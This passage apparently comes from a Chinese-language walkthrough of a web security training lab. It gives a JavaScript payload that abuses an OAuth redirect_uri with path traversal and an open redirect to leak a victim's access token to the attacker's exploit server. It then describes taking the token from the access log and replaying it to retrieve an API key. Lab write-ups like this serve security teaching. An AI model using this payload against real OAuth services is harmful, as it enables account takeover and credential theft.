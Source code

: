 [![](assets/1706059995-54439e2b94f664b0a3bf6c80a042a621.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122233742-2e8b7a0e-b93c-1.png)  
随后我们进入到利用环境，构造如下载荷

```bash
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

[![](assets/1706059995-3868c223b6b4cedcd56baef9364eed9f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122233803-3b2215ac-b93c-1.png)  
分发请求之后我们可以在访问日志中看到 access\_token 的记录  
[![](assets/1706059995-19f56fe4de9a291d39954e1e5ed609d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122233815-4206a0c2-b93c-1.png)  
随后我们使用获取到的 access\_token 替换/me 请求报文中的 token 参数并发送数据包，此时可以获取到 apikey 凭据信息，随后提交答案即可  